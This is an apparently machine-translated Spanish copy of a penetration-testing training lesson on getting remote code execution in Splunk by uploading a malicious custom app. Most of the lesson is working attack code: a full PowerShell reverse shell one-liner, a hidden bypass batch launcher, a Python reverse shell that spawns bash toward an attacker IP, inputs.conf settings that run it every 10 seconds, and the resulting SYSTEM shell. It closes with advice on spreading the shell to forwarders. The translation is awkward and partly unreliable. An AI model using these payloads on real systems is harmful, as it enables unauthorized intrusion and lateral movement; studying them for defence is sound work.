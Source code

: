 # Attacking Splunk

Como se discutió en la sección anterior, podemos obtener la ejecución de código remoto en Splunk creando una aplicación personalizada para ejecutar scripts de Python, Batch, Bash o PowerShell. Desde el escaneo NMAP Discovery, notamos que nuestro objetivo es un servidor de Windows. Dado que Splunk viene con Python instalado, podemos crear una aplicación Splunk personalizada que nos brinde ejecución de código remoto usando Python o un script PowerShell.

---

# **Abusar de la funcionalidad incorporada**

Podemos usar[este](https://github.com/0xjpuff/reverse_shell_splunk)Paquete Splunk para ayudarnos. El`bin`El directorio en este repositorio tiene ejemplos para[Pitón](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py)y[Powershell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Caminemos por este paso a paso.

Para lograr esto, primero necesitamos crear una aplicación Splunk personalizada utilizando la siguiente estructura del directorio.

Atacando a Splunk

```
xnoxos@htb[/htb]$ tree splunk_shell/splunk_shell/
├── bin
└── default

2 directories, 0 files

```

El`bin`El directorio contendrá cualquier scripts que pretendamos ejecutar (en este caso, un shell inverso de PowerShell), y el directorio predeterminado tendrá nuestro`inputs.conf`archivo. Nuestra caparazón inversa será una línea de una línea de PowerShell.

Atacando a Splunk

```powershell
#A simple and small reverse shell. Options and help removed to save space. #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

El[Entrada.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf)El archivo le dice a Splunk qué script ejecutar y cualquier otra condición. Aquí establecemos la aplicación como habilitada y le diremos a Splunk que ejecute el script cada 10 segundos. El intervalo siempre está en segundos, y la entrada (script) solo se ejecutará si esta configuración está presente.

Atacando a Splunk

```
xnoxos@htb[/htb]$ cat inputs.conf [script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10

```

Necesitamos el archivo .bat, que se ejecutará cuando la aplicación se implementa y ejecute la línea PowerShell One-Liner.

Atacando a Splunk

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit

```

Once the files are created, we can create a tarball or `.spl` file.

Atacando a Splunk

```
xnoxos@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf

```

El siguiente paso es elegir`Install app from file`y cargar la aplicación.

![](https://academy.hackthebox.com/storage/modules/113/install_app.png)

Antes de subir la aplicación personalizada maliciosa, comencemos a un oyente usando NetCat o[socat](https://linux.die.net/man/1/socat).

Atacando a Splunk

```
xnoxos@htb[/htb]$ sudo nc -lnvp 443listening on [any] 443 ...

```

En el`Upload app`página, haga clic en navegar, elija el tarball que creamos antes y haga clic en`Upload`.

![](https://academy.hackthebox.com/storage/modules/113/upload_app.png)

Tan pronto como cargamos la aplicación, se recibe un shell inverso, ya que el estado de la aplicación se cambiará automáticamente`Enabled`.

Atacando a Splunk

```
xnoxos@htb[/htb]$ sudo nc -lnvp 443listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145

PS C:\Windows\system32> whoami

nt authority\system

PS C:\Windows\system32> hostname

APP03

PS C:\Windows\system32>

```

En este caso, recuperamos un caparazón como`NT AUTHORTY\SYSTEM`. Si se tratara de una evaluación del mundo real, podríamos proceder a enumerar el objetivo de las credenciales en el registro, la memoria o almacenar en otros lugares del sistema de archivos para usar para el movimiento lateral dentro de la red. Si este fuera nuestro punto de apoyo inicial en el entorno de dominio, podríamos usar este acceso para comenzar a enumerar el dominio de Active Directory.

Si estuviéramos lidiando con un host de Linux, necesitaríamos editar el`rev.py`Script de Python antes de crear el tarball y subir la aplicación maliciosa personalizada. El resto del proceso sería el mismo, y obtendríamos una conexión de shell inversa en nuestro oyente de Netcat y nos iríamos a las carreras.

Código:pitón

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')

```

Si el host Splunk comprometido es un servidor de implementación, es probable que sea posible lograr RCE en cualquier host con los reenviados universales instalados en ellos. Para empujar una carcasa inversa a otros hosts, la aplicación debe colocarse en el`$SPLUNK_HOME/etc/deployment-apps`Directorio en el host comprometido. En un entorno de Windows-Heavy, necesitaremos crear una aplicación utilizando un shell inverso de PowerShell ya que los reenviadores universales no se instalan con Python como el servidor Splunk.